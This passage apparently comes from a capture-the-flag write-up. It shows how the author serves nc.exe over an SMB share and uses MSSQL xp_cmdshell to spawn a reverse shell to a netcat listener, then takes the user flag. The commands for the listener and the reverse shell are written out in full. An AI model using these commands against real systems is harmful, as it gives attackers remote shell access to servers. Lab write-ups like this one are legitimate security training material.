 After this we can effectively execute `cmd` commands. We would ideally take advantage of this so we can try to gain a reverse shell to make our usage much easier. I initially tried hosting netcat on the attacking machine with python and could not get a call back using `Powershell Invoke-Webrequest` or `certutil.exe`.

Instead I decided on using the smbserver.py script we used earlier. Doing this I can host the `nc.exe` file in the SMB share and execute it from the MSSQL server.

Move `nc.exe` to a preferred directory. For ease of use I moved `nc.exe` into the same directory in which I have smbclient.py located. Once completed run the following command to start up the SMB server again.

```
sudo python smbserver.py -smb2support <sharename> ./
```

Once completed start a `netcat` listener on the attacking machine using `nc -lvp 4444`.

![netcat on port 4444](<../../../.gitbook/assets/image (248) (1).png>)

We can now execute the following command on the MSSQL server:

```
xp_cmdshell \\<IP>\shared\nc.exe -e cmd.exe <IP> 4444
```

We now have a reverse shell.

![](<../../../.gitbook/assets/image (249) (1).png>)

We can now grab the `user.txt` flag before moving onto Privilege escalation.

![](<../../../.gitbook/assets/image (250) (1).png>)
